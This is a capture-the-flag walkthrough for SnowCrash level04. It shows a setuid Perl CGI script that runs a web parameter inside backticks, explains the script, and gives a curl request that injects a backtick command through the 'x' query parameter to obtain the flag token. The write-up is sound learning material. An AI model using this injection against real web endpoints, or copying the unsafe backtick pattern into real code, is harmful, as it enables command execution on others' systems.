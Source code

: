 How to find:

    level04@SnowCrash:~$ ls
    level04.pl

    -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl


A perl script:

    level04@SnowCrash:~$ cat level04.pl 
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
    level04@SnowCrash:~$


                     
This program is executed from a web server hosted on local machine and reachable via the port 4747

CGI(Common Gateway Interface) is a protocol for executing scripts via web requests

print "Content-type: text/html\n\n"; 
Print the string when it's execute

Define function 'x'
Variable 'y' take the value of the variable passed as parameter
Print variable 'y' ('2>&1' is for error handling)

Call function 'x'


As the program is running in a server hosted in the VM we use curl and pass the command 'getflag'


    curl 'localhost:4747/level04.pl?x=`getflag`'

    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap




